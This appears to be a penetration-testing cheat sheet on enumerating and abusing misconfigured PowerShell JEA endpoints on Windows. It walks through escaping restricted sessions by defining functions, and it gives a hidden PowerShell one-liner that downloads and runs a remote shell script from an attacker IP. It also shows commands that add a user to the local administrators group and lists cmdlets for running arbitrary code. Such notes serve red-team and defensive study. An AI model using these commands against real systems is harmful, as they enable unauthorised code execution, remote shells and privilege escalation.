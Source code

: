 #### Get the PSSession configurations (and JEA)
```
Get-PSSessionconfiguration
```

#### Get PSSession capabilities
```
Get-PSSessionCapability -ConfigurationName <NAME> -Username <DOMAIN>\<USERNAME>
```

### Abuse JEA
- Only when its misconfigured and allows dangerous commands like net.exe or cmdlets like Start-Process or Start-Service.
- Allows the use of wildcard.
- Check which commands are allowed to run and google for abuses
- https://www.triplesec.info/slides/3c567aac7cf04f8646bf126423393434.pdf
```
Get-Command

# Abuse example
Start-Process cmd.exe calc.exe
```

#### Abuse - Creating functions
- If JEA enpoint is running in Constrained Language Mode instead of NoLanguage it is possible to create your own functions!
- Creates a function with the name `gl` and executes it.
- Shortcut would be `${ <COMMAND>}`
```
function gl {Get-Location}; gl

function gl {whoami}; gl

function gl {powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://<IP>/shell.ps1'))"}; gl
```

#### Abuse - Grant a user to admin
```
Add-ADGroupMember, Add-LocalGroupMember, net.exe, dsadd.exe
```

#### Abuse - Running arbritary code
```
Start-Process, New-Service, Invoke-Item, Invoke-WmiMethod, Invoke-Command,
New-ScheduledTask, Register-ScheduledJob

Invoke-Command -ScriptBlock {net localgroup administrators <USER> /add}
```

### Abuse - Set-PSSessionConfiguration
- From https://github.com/samratashok/RACE/blob/master/RACE.ps1
- After finding a profile to edit, can also edit `microsoft.powershell` which is the normal remoting endpoint!
